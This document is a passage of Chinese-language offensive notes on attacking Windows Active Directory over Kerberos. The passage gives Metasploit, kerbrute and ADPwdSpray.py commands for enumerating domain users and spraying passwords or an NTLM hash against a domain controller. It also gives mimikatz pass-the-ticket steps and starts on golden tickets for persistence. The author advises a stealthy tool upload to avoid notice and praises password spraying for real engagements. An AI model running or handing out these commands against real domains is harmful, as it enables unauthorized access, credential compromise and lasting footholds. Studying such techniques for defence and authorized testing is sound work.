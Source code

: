 Msf也有类似的模块
> use auxiliary/gather/kerberos_enumusers
> set rhost [DC IP]
> set user_file 字典文件


Kerberos服务所在端口为88端口，采用tcp连接。<br />为何能利用Kerberos域进行用户枚举？<br />利用Kerberos错误代码进行判断 <br />用户分别有三种状态：启用、禁用、不存在。<br />三种状态的错误代码分别为：
> KDC_ERR_PREAUTH_REQUIRED-需要额外的预认证
> KDC_ERR_CLIENT_REVOKED-客户端凭证已被吊销
> KDC_ERR_C_PRINCIPAL_UNKNOWN-在Kerberos数据库中找不到客户端

爆破的时候直接抓包分析，并对10.0.0.3域控的所有请求筛选出来，可以看到如果存在这个域用户名就会有KDC_ERR_PREAUTH_REQUIRED的提示<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615646356948-9bad9e2d-a67e-43c5-80dc-c884561bd378.png#height=715&id=Bwr1T&originHeight=715&originWidth=1244&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1244)

![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615646357482-c203a9e7-d1f3-46db-9ae4-ea364e10b457.png#height=813&id=wPp9C&originHeight=813&originWidth=1242&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1242)<br />但实际渗透中，你拿下内网非域机子后，别人可能没安装nmap，而你要在人家的机子上安装nmap动静太大，所以直接上传个kerbrute工具是最好不过的。

[https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe)
<a name="Ds8SD"></a>
### kerbrute_windows_amd64
kerbrute_windows_amd64.exe userenum --dc 10.0.0.3 -d aufeng.com user.txt<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615646357934-4fb9a292-9f8f-46aa-a2cd-8f6572a616fe.png#height=309&id=ovOXw&originHeight=309&originWidth=975&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=975)<br />密码喷洒攻击<br />其实就是内网信息收集后，用同一个密码去爆破不同的用户名，去碰撞。实战这招屡试屡爽<br />kerbrute_windows_amd64.exe passwordspray --dc 10.0.0.3 -d aufeng.com user.txt Ou123456<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615646358416-2c027d94-16c0-414c-aefa-bdfbba2e5f66.png#height=303&id=YeDEK&originHeight=303&originWidth=972&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=972)
<a name="428I7"></a>
### ADPwdSpray.py
**域内用户名枚举**<br />10.0.0.3是域控ip<br />python2 .\EnumADUser.py 10.0.0.3 aufeng.com .\user.txt tcp<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626096237636-c84e4ce7-24e3-4b3a-b1bb-a4059cc7c848.png#height=160&id=Fw1h7&originHeight=213&originWidth=959&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17901&status=done&style=none&title=&width=719)<br />**域内密码爆破**<br /> python2 .\ADPwdSpray.py 10.0.0.3 aufeng.com .\user.txt clearpassword Aa123456.* tcp<br /> ![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626096495475-9cbe2a02-7f1b-46c7-a280-738cf3d2605f.png#height=153&id=gWOIT&originHeight=153&originWidth=1040&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16467&status=done&style=none&title=&width=1040)

python2 ADPwdSpray.py 10.0.0.3 aufeng.com user.txt ntlmhash e00045bd566a1b74386f5c1e3612921b udp 

<a name="DAAA9"></a>
## 票据传递

<a name="z3ocC"></a>
### 清空票据再导入
```
//清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
kerberos::purge
//查看当前机器凭证
kerberos::list
//将票据注⼊到内存中
kerberos::ptc xxx.ccache  或者是 kerberos::ptt ticket.kirbi
```
<a name="WpDPA"></a>
### 黄金票据(权限维持)
Golden Ticket由krbtgt的Hash加密<br />是需要获得了域中的 krbtgt 用户的 sid 值和哈希值 , 但是需要在域控中才能获得啊 (域控中操作) 相当于后门，如果入侵域控被发现了，管理员换了密码，但是krbtgt用户还会在，就能继续持续攻击
